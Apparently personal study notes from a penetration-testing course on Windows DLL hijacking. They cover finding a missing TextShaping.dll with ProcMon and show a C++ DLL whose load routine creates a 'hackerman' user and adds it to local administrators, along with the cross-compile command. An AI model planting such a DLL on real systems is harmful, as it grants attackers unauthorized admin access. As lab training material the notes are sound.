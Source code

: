 		![Figure 6: Clear the current logged events](https://static.offsec.com/offsec-courses/PEN-200/imgs/winprivesc/5c7bfb44d40076cc45e5ce66c5b34bd1-privesc_svcdll_clear.png)
		We can see it tries to locate a file `TextShaping.dll` but fails to do so
		![Figure 8: Resulting events after applying the filters](https://static.offsec.com/offsec-courses/PEN-200/imgs/winprivesc/2108c3ff37a75c50a6d43d6ceb963e5b-privesc_svcdll_dllsearch_results.png)
		Consider additional filters 
			Result is NAME NOT FOUND
			Operation is CreateFile
			example
			![[Pasted image 20250607233609.png]]
	Create DLL
Here is a code example of a basic DLL in C++
```
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

Here is a modified malicious DLL which creates a user and adds them as a local admin
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user hackerman password123! /add");
  	    i = system ("net localgroup administrators hackerman /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Created
	Now lets cross compile this
		`x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
	Transfer compiled DLL to location we identified in ProcMon